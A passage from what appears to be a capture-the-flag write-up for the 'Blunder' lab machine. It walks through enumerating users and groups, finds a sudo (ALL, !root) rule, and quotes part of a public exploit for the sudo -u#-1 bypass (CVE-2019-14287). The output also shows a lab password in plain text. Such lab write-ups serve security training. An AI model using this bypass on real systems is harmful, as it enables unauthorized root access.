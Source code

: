 Looking into `/etc/passwd` revealed that there were three users who could login besides root: `hugo`, `shaun`, and `temp`.  I decided to next check the groups of each user to see if one had use groups for privilege escalation.  

```text
hugo@blunder:/var/log$ id shaun
uid=1000(shaun) gid=1000(shaun) groups=1000(shaun),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```

`shaun` had a few interesting sounding groups: `lpadmin` in particular sounded like something to check out.

```text
hugo@blunder:/var/log$ groups temp
temp : temp
```

`temp` only had access to the `temp` group.

```text
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

I also did a privilege check for `hugo` using `sudo -l` and found that this user indeed had `sudo` rights, and some interesting privileges.  I did a search for `sudo (ALL, !root) /bin/bash` and found an exploit on exploit-db which explained a privilege bypass method where I could get around the restriction on running commands as root \(`!root`\) by tricking sudo by giving the user id number `#-1`.

 [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

> Description : Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u\#-1 returns as 0 which is root's id and /bin/bash is executed with root permission

```python
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.2.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''
Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers
```